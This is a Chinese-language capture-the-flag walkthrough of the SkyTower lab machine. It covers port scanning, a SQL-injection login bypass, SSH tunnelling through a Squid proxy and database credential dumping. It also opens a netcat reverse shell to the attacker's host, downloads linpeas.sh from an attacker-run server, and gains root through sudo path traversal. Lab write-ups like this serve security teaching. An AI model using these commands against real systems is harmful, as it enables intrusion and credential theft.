





# SkyTower
## NMAP信息收集
```
─$ sudo nmap -A -sV -T4 -p- 192.168.146.71
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-12 14:08 HKT
Nmap scan report for 192.168.146.71
Host is up (0.00022s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 00:0C:29:49:59:A9 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.10, Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.146.71

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.11 seconds
```
>可以看到开放了22端口, 80端口, 还有一个3128端口

```
─$ dirsearch -u "http://192.168.146.71/"                                                               

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aacai/.dirsearch/reports/192.168.146.71/-_22-07-12_14-09-42.txt

Error Log: /home/aacai/.dirsearch/logs/errors-22-07-12_14-09-42.log

Target: http://192.168.146.71/

[14:09:42] Starting: 
[14:09:43] 403 -  293B  - /.ht_wsr.txt
[14:09:43] 403 -  296B  - /.htaccess.bak1
[14:09:43] 403 -  297B  - /.htaccess_extra
[14:09:43] 403 -  296B  - /.htaccess.orig
[14:09:43] 403 -  296B  - /.htaccess.save
[14:09:43] 403 -  296B  - /.htaccess_orig
[14:09:43] 403 -  294B  - /.htaccessBAK
[14:09:43] 403 -  298B  - /.htaccess.sample
[14:09:43] 403 -  295B  - /.htaccessOLD2
[14:09:43] 403 -  286B  - /.htm
[14:09:43] 403 -  294B  - /.htaccess_sc
[14:09:43] 403 -  287B  - /.html
[14:09:43] 403 -  294B  - /.htaccessOLD
[14:09:43] 403 -  296B  - /.htpasswd_test
[14:09:43] 403 -  293B  - /.httr-oauth
[14:09:44] 403 -  286B  - /.php
[14:09:44] 403 -  287B  - /.php3
[14:09:44] 403 -  292B  - /.htpasswds
[14:09:53] 403 -  290B  - /cgi-bin/
[14:09:58] 200 -    1KB - /index
[14:09:58] 200 -    1KB - /index.html
[14:10:00] 200 -   21B  - /login.php
[14:10:06] 403 -  295B  - /server-status
[14:10:06] 403 -  296B  - /server-status/
Task Completed
```
>通过使用dirsearch扫描, 只发现了主页的三个目录, 访问一下主页看看有什么东西


>发现一个登录界面, 并且没有验证码, 跟以往一样, 先试试sql注入
我在Email里面输入admin, 在password里面写一个', 试试是否有sql注入


> 报错了, 看来有sql注入
那就试试万能密码
```
' || 1=1#
```

>怎么总感觉那么顺利又感觉掉进坑里了呢...
anyway先尝试一下ssh登录


>发现没办法登录, 这时候我们回顾一下nmap的扫描结果


>你可以发现ssh的端口state是被过滤的, 那么我们就要使用proxytunnel去把3128作为代理, 到我们本地试试了
```
proxytunnel -p 192.168.146.71:3128 -d 127.0.0.1:22 -a 5555
```

>我在登录上去之后的瞬间就被断开了连接, 这里把我整不会了, 于是我换了个思路, 使用反弹shell
首先用/etc/proxychains4.conf加入RHOST
```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ tail -n 5 /etc/proxychains4.conf 
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 192.168.146.71 3128
```
>然后再用proxychains 配合nmap测试一下是否成功
```
└─$ proxychains nmap -sT -p 22 127.0.0.1                                                                                   1 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-12 15:09 HKT
[proxychains] Strict chain  ...  192.168.146.71:3128  ...  127.0.0.1:80 <--denied
[proxychains] Strict chain  ...  192.168.146.71:3128  ...  127.0.0.1:22  ...  OK
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0027s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
                                                                                                                               

```
>成功了
接下来使用nc配合ssh登录
```
Terminal1:
nc -nvlp 4444             
listening on [any] 4444 ...
connect to [192.168.146.63] from (UNKNOWN) [192.168.146.71] 42743

Terminal2:
└─$ proxychains ssh john@127.0.0.1 nc 192.168.146.63 4444 -e /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  192.168.146.71:3128  ...  127.0.0.1:22  ...  OK
john@127.0.0.1's password: 
```
>这样Terminal1就得到了反弹回来的数据


>然后就开始在本机上搜索, 先去web目录看一下
```
cd /var/www
ls
background2.jpg
background.jpg
index.html
login.php
```
>看到一个login.php文件
查看一下内容

```
cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);


if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
		  padding-right:8px;  
      	  	  padding-left:10px; 
		  padding-top: 10px;  
      		  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
	';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>

```
> 下面那些都不重要了, 我们只要最顶上的$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
但是由于现在我们还是一个没有可交互式的命令行, 我们回到主目录下看看其他的文件看看有没有什么思路

```
cd 
ls
ls -al
total 24
drwx------ 2 john john 4096 Jun 20  2014 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john 3437 Jun 20  2014 .bashrc
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
#[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi

# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
    xterm-color) color_prompt=yes;;
esac

# uncomment for a colored prompt, if the terminal has the capability; turned
# off by default to not distract the user: the focus in a terminal window
# should be on the output of commands, not on the prompt
#force_color_prompt=yes

if [ -n "$force_color_prompt" ]; then
    if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
	# We have color support; assume it's compliant with Ecma-48
	# (ISO/IEC-6429). (Lack of such support is extremely rare, and such
	# a case would tend to support setf rather than setaf.)
	color_prompt=yes
    else
	color_prompt=
    fi
fi

if [ "$color_prompt" = yes ]; then
    PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
else
    PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
fi
unset color_prompt force_color_prompt

# If this is an xterm set the title to user@host:dir
case "$TERM" in
xterm*|rxvt*)
    PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
    ;;
*)
    ;;
esac

# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
    test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
    alias ls='ls --color=auto'
    #alias dir='dir --color=auto'
    #alias vdir='vdir --color=auto'

    #alias grep='grep --color=auto'
    #alias fgrep='fgrep --color=auto'
    #alias egrep='egrep --color=auto'
fi

# some more ls aliases
#alias ll='ls -l'
#alias la='ls -A'
#alias l='ls -CF'

# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

echo
echo  "Funds have been withdrawn"
exit

```
>我观察到了.bashrc里面的最后一行, 就是因为这个文件导致我无法登录, 那我就直接在ssh登录的时候把.bashrc删掉就好了
```
Terminal1:
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ proxytunnel -p 192.168.146.71:3128 -d 127.0.0.1:22 -a 5555        

Terminal2:
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ ssh john@127.0.0.1 -p 5555 'rm .bashrc'                                                                                                                            1 ⨯
john@127.0.0.1's password: 
                                                                                                                                                                           
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ ssh john@127.0.0.1 -p 5555             
john@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 12 03:16:23 2022 from localhost
john@SkyTower:~$ 

```
> 这样我们就上来了, 接下来就是登录数据库了
```
john@SkyTower:~$ mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 48
Server version: 5.5.35-0+wheezy1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

```
> 拿到两个新用户的密码
> 继续使用ssh登录

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ ssh sara@127.0.0.1 -p 5555                   
sara@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 08:19:23 2014 from localhost

Funds have been withdrawn
Connection to 127.0.0.1 closed.
                                                                                                                                                                           
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ ssh sara@127.0.0.1 -p 5555 'rm .bashrc'
sara@127.0.0.1's password: 
                                                                                                                                                                           
┌──(aacai㉿kali)-[~/Desktop/192.168.146.71]
└─$ ssh sara@127.0.0.1 -p 5555             
sara@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 12 03:33:22 2022 from localhost
sara@SkyTower:~$ 

```
>一样的套路再用就不礼貌了啊...
在本地开个httpserver, 使用linpeas.sh查看一下有用的信息
```
└─$ sudo python3 -m http.server 80               
[sudo] password for aacai: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.146.71 - - [12/Jul/2022 15:36:41] "GET /linpeas.sh HTTP/1.1" 200 -

sara@SkyTower:~$ wget "http://192.168.146.63/linpeas.sh"
--2022-07-12 03:36:41--  http://192.168.146.63/linpeas.sh
Connecting to 192.168.146.63:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: `linpeas.sh'

100%[=================================================================================================================================>] 776,967     --.-K/s   in 0.02s   

2022-07-12 03:36:41 (43.9 MB/s) - `linpeas.sh' saved [776967/776967]

sara@SkyTower:~$ ls
linpeas.sh
sara@SkyTower:~$ bash linpeas.sh 
```
>观察到Users Information有以下内容
```
═════════════════════════════════════════╣ Users Information ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1001(sara) gid=1001(sara) groups=1001(sara)

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg
netpgpkeys Not Found
netpgp Not Found

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*

```
>这个用户可以使用/account*查看root的东西
```
sara@SkyTower:~$ sudo cat /accounts/*
cat: /accounts/*: No such file or directory
sara@SkyTower:~$ sudo cat /accounts/../
cat: /accounts/../: Is a directory
sara@SkyTower:~$ sudo ls /accounts/../
accounts  bin  boot  dev  etc  home  initrd.img  lib  lib64  lost+found  media	mnt  opt  proc	root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
sara@SkyTower:~$ sudo ls /accounts/../root
flag.txt
sara@SkyTower:~$ 
```
>看到了一个flag.txt
```
sara@SkyTower:~$ sudo ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo ls /accounts/../root/flag.txt
/accounts/../root/flag.txt
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 

```
>拿到root密码!
```
sara@SkyTower:~$ su root
Password: 
root@SkyTower:/home/sara# cd 
root@SkyTower:~# ls
flag.txt
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:49:59:a9 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.71/24 brd 192.168.146.255 scope global eth0
    inet6 fe80::20c:29ff:fe49:59a9/64 scope link 
       valid_lft forever preferred_lft forever
root@SkyTower:~# 

```
